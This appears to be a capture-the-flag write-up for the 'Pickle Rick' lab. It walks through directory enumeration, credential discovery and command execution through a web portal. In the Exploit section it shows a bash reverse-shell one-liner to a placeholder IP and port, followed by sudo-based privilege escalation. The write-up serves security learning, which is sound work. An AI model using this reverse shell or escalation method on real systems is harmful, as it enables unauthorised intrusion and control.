






PickleRick
==========

I'll be honest, I never watched rick and morty and I have no idea why THM is addicted to making their references to a point that they have a whole CTF named after it, but I digress, lets figure this one out.

This CTF focusses on Remote Code Execution and Broken Access Control.

## Enumeration

We start with looking at the source code and find this bit of info:

```html
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
  ```
  
Seems useful enough, then I start a gobuster directory attack and get the following hits:
```
/index.html
/login.php
/assets
/portal.php
/robots.txt
```

(Keep in mind, I used dirb's common.txt first and then used dirbuster's lowercase wordlist)

`/robots.txt` has this particular output:



We move on to login.php and use the username from the source code and the `/robots.txt` output as the password and this screen shows up:



This is the portal.php that gobuster hit earlier and we can see that this has a command line that we can use.
Clicking on anything other than the commands page gives you nothing as you don't have admin access.

## Exploit

There are a couple ways you can go to solve this ctf from here, but I'll show you the one that made the most sense with me.

Using `ls` on the CLI gives us this output:



Since everything else on the output was visible before, I lookup the `Sup3rS3cretPickl3Ingred.txt` file directly through the URL and see this (commands like cat won't work but `less` and `strings` does work which is one of the many ways to do this CTF, also `clue.txt` is useless as we can clearly see what the ingredient is):



This is the first ingredient out of 3, lets try getting a reverse shell through this command:

`bash -c "bash -i >& /dev/tcp/IP_ADDR/PORT 0>&1"`

Now we have a reverse shell, which makes this challenge way more convenient

(This one is a personal preference but you can use this command for a cli that can be used to fool sudo: `python -c 'import pty; pty.spawn("/bin/bash")'`)

The second ingredient can be found in `/home/rick`

## Priv-Esc

The third ingredient is very tricky as you are left to figure out where it is, usually some value comes out of getting root access, so we check if we have root access by using `sudo -l` :



As you can see, sudo doesn't need a password to run for commands, so we can freely look into the root directory using `sudo ls /root` and see what it holds:



We have found the 3rd ingredient and completed the CTF.
